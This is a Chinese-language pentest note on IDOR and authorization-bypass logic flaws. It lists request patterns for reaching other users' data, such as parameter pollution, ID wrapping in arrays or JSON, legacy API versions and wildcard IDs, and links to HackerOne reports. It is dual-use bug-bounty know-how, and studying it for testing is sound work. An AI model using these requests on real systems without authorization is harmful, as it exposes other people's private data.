


- [逻辑漏洞概述](#逻辑漏洞概述)
- [绕过授权](#绕过授权)
  - [漏洞报告 (Hackerone)](#漏洞报告-hackerone)
- [接口泄露 #TODO](#接口泄露-todo)
  - [一个登录框可以做什么](#一个登录框可以做什么)
- [越权漏洞 #TODO](#越权漏洞-todo)

**相关链接**

- <https://cn-sec.com/archives/1171492.html>
- <https://vickieli.medium.com/intro-to-idor-9048453a3e5d>

## 逻辑漏洞概述

IDOR，Insecure Direct Object reference，即"不安全的直接对象引用"，场景为基于用户提供的输入对象进行访问时，未进行权限验证。IDOR漏洞其实在越权（Broken Access Control）漏洞的范畴之内，也可以说是逻辑漏洞，或是访问控制漏洞，国内通常被称为越权漏洞。

## 绕过授权

```
在末尾添加参数
HTTP 参数污染
如果站点是用 Ruby 构建的，则将.json 添加到末尾
测试历史 API 版本
用数组嵌套 ID
用 JSON 对象嵌套 ID:
参数污染
```

- 在末尾添加参数

```
GET /api_v1/messages --> 401
GET /api_v1/messages?user_id=victim_uuid --> 200
```

- HTTP 参数污染

```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

- 如果站点是用 Ruby 构建的，则将.json 添加到末尾

```
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

- 测试历史 API 版本

```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

- 用数组嵌套 ID

```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

- 用 JSON 对象嵌套 ID

```
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
```

- 参数污染

```
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

- 尝试对base64,etc,md5加密的参数解密

```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...
dmljdGltQG1haWwuY29t => victim@mail.com
```

- 尝试用数字替换 UUID

```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
GET /file?id=302
```

- 更换HTTP请求方式

```
GET /api/v1/users/profile/111 HTTP/1.1
POST /api/v1/users/profile/111 HTTP/1.1
OPTIONS * HTTP/1.1
```

- 使用通配符替换ID

```
GET /api/users/111 HTTP/1.1
GET /api/users/* HTTP/1.1
GET /api/users/% HTTP/1.1
GET /api/users/_ HTTP/1.1
GET /api/users/. HTTP/1.1
```

- 尝试使用一个通配符(*)来代替 ID。这种方法很少见，但是有时候是有效的
- 如果ID参数为数字，请确保通过大量的数字进行测试，而不是通过猜测
- 如果 URI 类似于/api/users/myinfo，请检查/api/admins/myinfo
- GET/POST/PUT 用 GET/POST/PUT 替换请求方法
- 使用BurpSuite autorize拓展
- 如果这些都不起作用，那就使用你所能想到的方式，到处去看看

### 漏洞报告 (Hackerone)

- [IDOR to delete images from other stores](https://hackerone.com/reports/404797)
- [IDOR in changing shared file name](https://hackerone.com/reports/547663)
- [User uploaded portfolio files can be accessed by any user even after deleted](https://hackerone.com/reports/300179)
- [IDOR and statistics leakage in Orders](https://hackerone.com/reports/544329)
- [I.D.O.R To Order,Book,Buy,reserve On YELP FOR FREE (UNAUTHORIZED USE OF OTHER USER&#39;S CREDIT CARD)](https://hackerone.com/reports/391092)
- [IDOR allow access to payments data of any user](https://hackerone.com/reports/751577)
- [IDOR allow to extract all registered email](https://hackerone.com/reports/302485)
- [IDOR at https://account.mackeeper.com/at/load-reports/profile/profile_id leaks information about devices/licenses](https://hackerone.com/reports/783117)
- [IDOR bug to See hidden slowvote of any user even when you dont have access right](https://hackerone.com/reports/661978)
- [IDOR on update user preferences](https://hackerone.com/reports/854290)
- [idor on upload profile functionality](https://hackerone.com/reports/741683)
- [IDOR to view User Order Information](https://hackerone.com/reports/287789)
- [IDOR with Geolocation data not stripped from images](https://hackerone.com/reports/906907)
- [Replace other user files in Inbox messages](https://hackerone.com/reports/322661)

## 接口泄露 #TODO

### 一个登录框可以做什么

接口中的信息泄露，利用接口




接口 FUZZ 模糊测试可能包含的接口。




## 越权漏洞 #TODO

**相关链接**

- <https://www.freebuf.com/vuls/223500.html>
